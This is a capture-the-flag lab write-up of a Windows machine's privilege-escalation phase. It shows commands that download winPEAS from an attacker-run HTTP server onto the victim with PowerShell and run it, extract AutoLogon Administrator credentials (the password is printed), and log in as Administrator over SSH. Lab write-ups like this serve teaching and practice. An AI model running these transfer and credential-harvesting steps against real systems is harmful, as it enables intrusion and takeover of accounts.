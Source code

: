 Phase 3: Privilege Escalation
--
The next step is pwning the system by escalating privileges to Administrator account. By searching for any interesting file inside the user folders, we cannot find anything of interest.

Since you are using Windows `cmd`, remember to use `type` for reading the content of files. If you want to swap to PowerShell, just type `powershell`.

By using `ping google.com` or `ping 8.8.8.8` command, we note that ping request could not find host google.com. It means that more likely the target machine cannot connect to Internet, so we cannot download any tools could be useful for our privilege escalation directly by Internet.
If we try to ping our attacker machine by `ping 10.10.15.64`, the attacker machine is pinged correctly from target machine. It means they are inside the same network.

At this point, we can transfer them by using our attacker machine as HTTP server and use some PowerShell command to download the tool to victim machine.

For first, let's use winPEAS tool. Let's download it on attacker machine:
```
$ wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASany.exe
```
Run the HTTP server on the attacker machine:
```
$ python3 -m http.server 4000
```
Let's move to the SSH session on the victim machine and download the file from our HTTP server. Note that, if you receive some "Permission Denied" error on victim machine, download the file on the `C:\Users\Daniel\Downloads` or `C:\Users\Daniel\Desktop` folder.
By PowerShell, type:
```powershell
PS C:\Users\daniel\Desktop> wget http://10.10.15.64:4000/winPEASany.exe -UseBasicParsing -Out ./winPEASany.exe
```
or
```powershell
PS C:\Users\daniel\Desktop> Invoke-WebRequest http://10.10.15.64:4000/winPEASany.exe -OutFile ./winPEASany.exe
```
Then, run it:
```powershell
PS C:\Users\daniel\Desktop> .\winPEASany.exe 
```
From the output, one of most interesting parts is the following:
```
<SNIP>
+----------¦ Looking for AutoLogon credentials                                                                                                                                                                             
    Some AutoLogon credentials were found                                                                                                                                                                                         
    DefaultUserName               :  Administrator
    DefaultPassword               :  Yhk}QE&j<3M
<SNIP>
```
At this point, from our attacker machine we can connect by SSH:
```
ssh Administrator@10.129.95.192
```
Insert the password and you get access as Administrator and you can search the flag.
